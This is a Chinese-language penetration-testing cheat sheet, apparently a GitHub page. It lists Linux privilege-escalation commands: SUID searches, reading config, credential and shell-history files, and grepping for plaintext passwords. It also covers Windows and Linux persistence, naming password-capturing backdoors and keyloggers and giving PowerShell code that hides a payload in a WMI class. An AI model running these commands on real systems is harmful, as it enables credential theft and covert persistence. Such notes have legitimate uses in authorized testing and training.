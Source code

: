 ```
```
#### SUID 
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
#### 系统服务的错误权限配置漏洞 
```
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

#### 不安全的文件/文件夹权限配置 
```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```
#### 找存储的明文用户名，密码 
```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla
```

## 权限维持 

### 系统后门 
#### Windows 
##### 1、密码记录工具 
WinlogonHack 
WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。
键盘记录器 
安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。
NTPass 
获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。
Linux 下 openssh 后门 
重新编译运行的sshd服务，用于记录用户的登陆密码。
##### 2、常用的存储Payload位置 
**WMI** :
存储：
```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```
读取:
```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```
